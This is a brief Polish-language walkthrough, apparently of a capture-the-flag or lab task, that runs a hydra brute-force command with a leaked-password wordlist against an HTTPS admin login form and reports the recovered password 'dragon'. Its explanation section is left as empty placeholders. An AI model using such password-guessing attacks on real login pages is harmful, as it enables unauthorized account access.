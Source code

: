 ### ✅ **Rozwiązanie**

Probujemy znalezc haslo uzywajac tej komendy:

```bash
hydra -l anything -P /usr/share/seclists/Passwords/darkweb2017-top100.txt 'https-post-form://admin.webpjatk/panel/login.php:p=^PASS^:Wrong password'
```

Znajduje nam, haslo ktore pasuje i wchodzimy tutaj, zeby sie zalogowac:

```
https://admin.webpjatk/panel/login.php
```

Haslo:
> dragon

---

### ❓ **Wytłumaczenie**
- 
>
- 
>
- 
>

---